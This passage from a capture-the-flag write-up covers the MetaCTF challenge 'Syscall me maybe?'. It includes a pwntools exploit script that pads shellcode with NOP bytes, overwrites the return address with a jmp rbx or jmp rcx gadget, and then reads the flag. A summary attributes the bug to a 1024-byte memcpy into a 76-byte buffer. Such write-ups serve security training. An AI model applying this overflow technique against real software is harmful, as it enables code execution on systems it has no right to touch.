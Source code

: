 ```python

if args.LOCAL:
	jmp_rbx = 0x000000000040197a
	payload =  shellcode.ljust(88, b'\x90')
	payload += p64(jmp_rbx)
	payload += shellcode.ljust(88, b'\x90') * 4
	io.sendlineafter(b"Syscall me maybe?: ", payload)
	io.recvuntil(b"\x90\x90\x90\x90\x90\x90\x90\x90\x90z\x19@")
	flag = io.recvregex(br'MetaCTF{.*?}')
	log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")
else :
	jmp_rcx = 0x000000000040197c
	payload =  shellcode.ljust(88, b'\x90')
	payload += p64(jmp_rcx)
	io.sendlineafter(b"Syscall me maybe?: ", payload)
	io.recvuntil(b"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90|\x19@")
	flag = io.recvregex(br'MetaCTF{.*?}')
	log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")




```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program contains two main vulnerabilities:

1. **Buffer Overflow**:
   The program uses the function `memcpy(dest, s, 0x400)` to copy 1024 bytes from `s` (input buffer) into `dest` (a 76-byte buffer). This causes a **buffer overflow**, overwriting adjacent memory, including the return address. This can be exploited to redirect the execution flow to injected shellcode or a ROP chain, giving the attacker control over the program.
